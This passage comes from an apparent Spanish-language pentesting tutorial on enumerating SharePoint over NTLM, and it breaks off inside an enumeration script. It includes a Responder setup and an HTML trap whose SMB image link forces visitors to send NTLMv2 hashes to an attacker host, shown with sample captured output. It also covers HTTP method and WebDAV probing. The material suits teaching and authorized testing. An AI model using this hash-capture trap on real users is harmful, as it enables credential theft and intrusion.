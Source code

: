 ## 6. Forzado y captura de hashes NTLM

Aunque estemos en modo enumeración, podemos configurar un escenario para capturar hashes NTLM si algún usuario intenta autenticarse:

```bash
# Configuración de Responder
sudo responder -I eth0 -wrf

# Creación de página HTML maliciosa para forzar autenticación SMB
echo '<img src="\\10.10.10.y\share\imagen.jpg">' > trampa.html
```

Si un usuario accede a esta página mientras está autenticado en el dominio, Responder capturará su hash NTLM:

```
[SMB] NTLMv2-SSP Client   : 10.10.10.x
[SMB] NTLMv2-SSP Username : CONTOSO\sharepoint_svc
[SMB] NTLMv2-SSP Hash     : sharepoint_svc::CONTOSO:72f3430fe8sd7shj:E348A...
```

## 7. Análisis de métodos HTTP permitidos

Los métodos HTTP habilitados pueden revelar vectores adicionales:

```bash
curl -v -X OPTIONS http://10.10.10.x
```

**Resultado:**
```
< HTTP/1.1 200 OK
< Allow: GET, HEAD, POST, OPTIONS, TRACE
```

La presencia de `TRACE` podría indicar vulnerabilidades como Cross-Site Tracing (XST).

## 8. Verificación de WebDAV

Si WebDAV está habilitado, podría proporcionar vías adicionales de acceso:

```bash
# Verificar si WebDAV está habilitado
curl -X PROPFIND -H "Depth: 1" http://10.10.10.x/
```

Una respuesta `207 Multi-Status` indicaría WebDAV activo, mientras que un `405 Method Not Allowed` significaría que no está disponible.

## Comandos listos para usar

A continuación, presento un script bash listo para ejecutar que automatiza la enumeración básica:

```bash
#!/bin/bash
# SharePoint NTLM Enumerator
# Uso: ./sp_ntlm_enum.sh <IP_OBJETIVO>

TARGET=$1
echo "[+] Iniciando enumeración NTLM en SharePoint para $TARGET"

# 1. Verificación de cabeceras básicas
echo -e "\n[+] Verificando cabeceras HTTP:"
curl -s -I -L http://$TARGET | grep -E "Server:|WWW-Authenticate:|X-Powered-By:|MicrosoftSharePointTeamServices:"

# 2. Obtención de información NTLM con Nmap
echo -e "\n[+] Extrayendo información NTLM con Nmap:"
```